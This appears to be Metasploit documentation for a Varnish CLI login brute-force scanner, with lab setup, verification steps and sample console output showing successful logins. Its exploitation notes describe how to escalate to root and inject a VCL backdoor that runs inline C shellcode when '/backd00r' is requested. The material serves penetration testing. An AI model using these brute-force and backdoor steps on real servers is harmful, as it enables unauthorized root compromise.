 ## Vulnerable Application

  Ubuntu 14.04 can `apt-get install varnish`.  At the time of writing that installed varnish-3.0.5 revision 1a89b1f.
  Kali installed varnish-5.0.0 revision 99d036f

  Varnish installed and ran the cli on localhost.  First lets kill the service: `sudo service varnish stop`.  Now, there are two configurations we want to test:

  1. No Authentication: `varnishd -T 0.0.0.0:6082`
  2. Authentication (based on shared secret file): `varnishd -T 0.0.0.0:6082 -S file`.
    1. I made an easy test one `echo "secret" > ~/secret`

## Exploitation Notes

These notes were taken from the original module in EDB, and can be used when developing a working remote exploit

```
- varnishd typically runs as root, forked as unpriv.
- 'param.show' lists configurable options.
- 'cli_timeout' is 60 seconds. param.set cli_timeout 99999 (?) if we want to inject payload into a client thread and avoid being killed.
- 'user' is nobody. param.set user root (may have to stop/start the child to activate)
- 'group' is nogroup. param.set group root (may have to stop/start the child to activate)
- (unless varnishd is launched with -r user,group (read-only) implemented in v4, which may make priv esc fail).
- vcc_unsafe_path is on. used to 'import ../../../../file' etc.
- vcc_allow_inline_c is off. param.set vcc_allow_inline_c on to enable code execution.
- code execution notes:

* quotes must be escaped \"
* \n is a newline
* C{ }C denotes raw C code.
* e.g. C{ unsigned char shellcode[] = \"\xcc\"; }C
* #import <stdio.h> etc must be "newline", i.e. C{ \n#include <stdlib.h>\n dosomething(); }C (without 2x \n, include statement will not interpret correctly).
* C{ asm(\"int3\"); }C can be used for inline assembly / shellcode.
* varnishd has it's own 'vcl' syntax. can't seem to inject C randomly - must fit VCL logic.
* example trigger for backdoor:

VCL server:
  vcl.inline foo "vcl 4.0;\nbackend b { . host = \"127.0.0.1\";  } sub vcl_recv { if (req.url ~ \"^/backd00r\") { C{ asm(\"int3\"); }C } } \n"
  vcl.use foo
  start

Attacker:
  telnet target 80
  GET /backd00r HTTP/1.1
  Host: 127.0.0.1

(... wait for child to execute debug trap INT3 / shellcode).

CLI protocol notes from website:

The CLI protocol used on the management/telnet interface is a strict request/response protocol, there are no unsolicited transmissions from the responding end.

Requests are whitespace separated tokens terminated by a newline (NL) character.

Tokens can be quoted with "..." and common backslash escape forms are accepted: (\n), (\r), (\t), (
), (\"), (\%03o) and (\x%02x)

The response consists of a header which can be read as fixed format or ASCII text:

    1-3      %03d      Response code
    4        ' '       Space
    5-12     %8d       Length of body
    13       \n        NL character.
Followed by the number of bytes announced by the header.

The Responsecode is numeric shorthand for the nature of the reaction, with the following values currently defined in include/cli.h:

enum cli_status_e {
        CLIS_SYNTAX     = 100,
        CLIS_UNKNOWN    = 101,
        CLIS_UNIMPL     = 102,
        CLIS_TOOFEW     = 104,
        CLIS_TOOMANY    = 105,
        CLIS_PARAM      = 106,
        CLIS_OK         = 200,
        CLIS_CANT       = 300,
        CLIS_COMMS      = 400,
        CLIS_CLOSE      = 500
};
```

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/varnish/varnish_cli_login```
  4. Do: ```run```
  5. Find a valid login.

## Options

  **PASS_FILE**

  File which contains the password list to use.

## Scenarios

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f and NO AUTHENTICATION

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: No Authentication Required
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(varnish_cli_login) >
    ```

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - Authentication Required
    [!] 192.168.2.85:6082     - No active DB -- Credential data will not be saved!
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: bad
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: good
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: secret
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

